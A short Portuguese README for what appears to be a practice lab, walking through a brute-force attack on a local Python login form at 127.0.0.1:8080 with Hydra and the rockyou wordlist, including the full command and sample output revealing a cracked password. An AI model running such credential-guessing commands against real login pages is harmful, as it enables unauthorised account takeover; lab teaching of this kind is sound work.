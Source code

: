 # HTTP POST

Primeiro é necessário ter o código python rodando, para isso, rode no seu terminal

```shell
    python3 code/app.py 
```

Com o app python rodando e o hydra instalado, basta seguir o passo a passo abaixo:

**Ambiente**: Kali Linux

**Serviço alvo**: Formulário web simples rodando localmente em ``http://127.0.0.1:8080``

**Campos do formulário**:

* ``username``
* ``password``

**Mensagem de falha**: ``Login failed``

**Wordlist**: ``/usr/share/wordlists/rockyou.txt``

```shell
    hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form://127.0.0.1:8080/":username=^USER^&password=^PASS^:Login failed"
```

## O que observar

Se o Hydra encontrar a senha correta, o resultado será semelhante a:

```shell
    [8080][http-post-form] host: 127.0.0.1   login: admin   password: 123456
```
